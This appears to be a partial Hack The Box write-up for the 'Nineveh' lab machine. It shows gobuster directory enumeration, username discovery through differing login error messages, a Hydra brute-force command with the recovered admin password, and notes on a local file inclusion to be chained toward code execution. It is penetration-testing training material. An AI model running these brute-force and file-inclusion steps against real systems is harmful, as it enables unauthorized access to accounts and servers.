










# 10 - nineveh

# 10.10.10.43
There is either a hidden file or a misconfiguration.



# nineveh.htb



# Gobuster
```bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/nineveh]
└─$ gobuster dir -u nineveh.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster/nineveh.htb -x ".php,.html,.txt" -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://nineveh.htb
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
2021/05/29 10:57:25 Starting gobuster in directory enumeration mode
===============================================================
/info.php             (Status: 200) [Size: 83690]
/index.html           (Status: 200) [Size: 178]  
/department           (Status: 301) [Size: 315] [--> http://nineveh.htb/department/]
/server-status        (Status: 403) [Size: 299]                                     
                                                                                    
===============================================================
2021/05/29 11:07:02 Finished
```


# info.php



# department

 

# Page Source 


It says MySQL is installed and there is something wrong with the login page, we can try sql injection on it. And **amrois** &  **admin** could be valid usernames

# Invalid password
If the request passes the username and fails at password check it errors as **Invalid Password!**, if the request fails at username it says **Invalid Username!**



The username **admin** looks like a valid username because **Invalid Password** appears instead of **Invalid Username** so let's try bruteforcing the password.

# Hydra
```bash
──(kali㉿kali)-[10.10.14.9/23]-[~/htb/nineveh]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form '/department/login.php:username=^USER^&password=^PASS^:Invalid'
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-05-29 12:16:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://nineveh.htb:80/department/login.php:username=^USER^&password=^PASS^:Invalid
[STATUS] 1809.00 tries/min, 1809 tries in 00:01h, 14342590 to do in 132:09h, 16 active
[80][http-post-form] host: nineveh.htb   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-05-29 12:18:51
```

Creds
* login: admin
* password: 1q2w3e4r5t

# Admin login



# Notes




# Local file inclusion


There is a local file inclusion on the link, we can view any file we want as long as *notes* variable contains the word *Notes*. if you remove a character from the end of the string it will show you some error,  I think that's because there is a check before *include*, if the filename doesn't contain the word *Nodes* it will say "**No Note is selected**" and won't even try to include the file.




If it contains the word Nodes and the file doesn't exists then you will be able to see the error.

Local file inclusion is good but it's best when chained with a file upload for remote code execution. Let's start enumerating ssl port now.